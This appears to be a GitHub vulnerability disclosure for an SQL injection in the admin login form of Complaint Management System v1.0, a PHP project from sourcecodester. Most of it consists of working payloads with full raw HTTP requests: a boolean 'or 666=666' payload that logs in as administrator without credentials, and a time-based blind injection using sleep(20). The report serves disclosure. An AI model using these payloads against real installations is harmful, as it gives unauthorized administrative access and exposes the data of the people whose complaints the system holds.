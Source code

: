 # Complaint Management System v1.0 by razormist has SQL injection

BUG_Author: twinklx

vendors:https://www.sourcecodester.com/php/14206/complaint-management-system.html

Vulnerability File: Complaint Management System/admin/index.php

POST parameter 'username' exists SQL injection vulnerability

Payload1: username=a%27+or+666%3D667--+&password=b&submit=

```
POST /Complaint%20Management%20System/admin/index.php HTTP/1.1
Host: localhost
Content-Length: 48
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/Complaint%20Management%20System/admin/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=t4seeleacv1a7kkuldnhdqs4v4
Connection: close

username=a%27+or+666%3D667--+&password=b&submit=
```

Invalid username or password

![image](https://github.com/ggforlove/pic/blob/main/in.png)

Payload2:username=a%27+or+666%3D666--+&password=b&submit=

```
POST /Complaint%20Management%20System/admin/index.php HTTP/1.1
Host: localhost
Content-Length: 48
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/Complaint%20Management%20System/admin/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=t4seeleacv1a7kkuldnhdqs4v4
Connection: close

username=a%27+or+666%3D666--+&password=b&submit=
```

The administrator page is successfully logged in

![image](https://github.com/ggforlove/pic/blob/main/ad.png)

Payload3:username=a'%2b(select*from(select(sleep(20)))a)%2b'&password=b&submit=

```
POST /Complaint%20Management%20System/admin/index.php HTTP/1.1
Host: localhost
Origin: http://localhost
Cookie: PHPSESSID=vsjva5aj42bfl3b3i7s95s8ukr
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Upgrade-Insecure-Requests: 1
Referer: http://localhost/Complaint%20Management%20System/admin/index.php
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en-GB;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Length: 70

username=a'%2b(select*from(select(sleep(20)))a)%2b'&password=b&submit=
```

The server's response time is 20 seconds

![image](https://github.com/ggforlove/pic/blob/main/sleep.png)


